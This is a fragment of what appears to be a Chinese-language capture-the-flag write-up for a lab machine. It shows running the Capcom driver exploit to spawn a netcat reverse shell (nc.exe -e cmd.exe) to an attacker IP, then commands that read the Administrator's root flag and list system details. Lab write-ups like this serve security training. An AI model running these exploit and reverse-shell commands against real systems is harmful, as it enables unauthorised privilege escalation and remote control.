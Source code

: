 获得shell
```
.\ExploitCapcom.exe EXPLOIT 'nc.exe 10.10.14.35 1338 -e cmd.exe'
```
![]({{ site.url }}/assets/Fuse_193.assets/20201029213534006_2817.png)

![]({{ site.url }}/assets/Fuse_193.assets/20201029213517829_15376.png)

hostname && whoami.exe && type "C:\Users\Administrator\Desktop\root.txt" && ipconfig /all

![]({{ site.url }}/assets/Fuse_193.assets/20201029213709271_11424.png)

